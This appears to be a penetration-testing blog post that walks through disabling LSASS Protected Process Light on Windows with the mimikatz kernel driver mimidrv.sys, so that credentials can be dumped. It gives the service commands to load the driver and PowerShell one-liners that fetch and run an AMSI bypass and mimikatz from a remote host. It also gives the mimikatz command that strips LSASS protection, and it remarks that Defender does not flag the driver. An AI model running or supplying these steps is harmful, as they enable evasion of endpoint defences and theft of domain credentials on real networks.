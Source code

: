 ```yaml
---
layout: post
title: Disabling LSASS protection with mimidrv.sys
---
```

![](/images/2021-1-1-mimidrv/0.png)


During your Active directory attack, once you have elevated your privilege to NT SYSTEM, the first thing we can do is to dump hashes from LSASS but what if the LSASS is protcted.

If LSASS protection is enabled we cannot tamper with the process, if LSASS is marked as Protected Process Light (PPL) then protection is turned on !

PS: You can use a powershell script such as HostRecon.ps1 to find out if protection is enabled.

In this post we will take a look at how we can run mimikatz to do this by the driver MIMIKATZ uses to accomplish this !

```
mimidrv.sys
```

First thing to do is to upload the driver file into disk, fortunately, defender does not flag this as malicious !


Now we will create as service and load the driver

```
sc create mimidrv binPath= C:\tmp\mimidrv.sys type= kernel start= demand
```

Now we will start the service

```

sc start mimidrv
```

With the driver running, we can instruct it to turn off the LSASS PPL protection.

In order to do that, we will first disable AMSI and load mimikatz (the whole point of this exercise to minimize the number of time we run mimikatz)

```
Step 1: Start powershell
Step 2: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/AMSI.txt') | IEX
Step 3: (New-Object System.Net.WebClient).DownloadString('http://192.168.49.69/mimikatz.txt') | IEX
Step 4: Invoke-Mimikatz -Command "`"!processprotect /process:lsass.exe /remove`"" 


```

![](/images/2021-1-1-mimidrv/2.png)

With the driver running combined with the above command, we have successfully disabled the protection !!

Now we can use any method to dump the lSASS process and download it offline and use tools such as "MIMIKATZ" or "PYPYKATZ" to extract the credentials
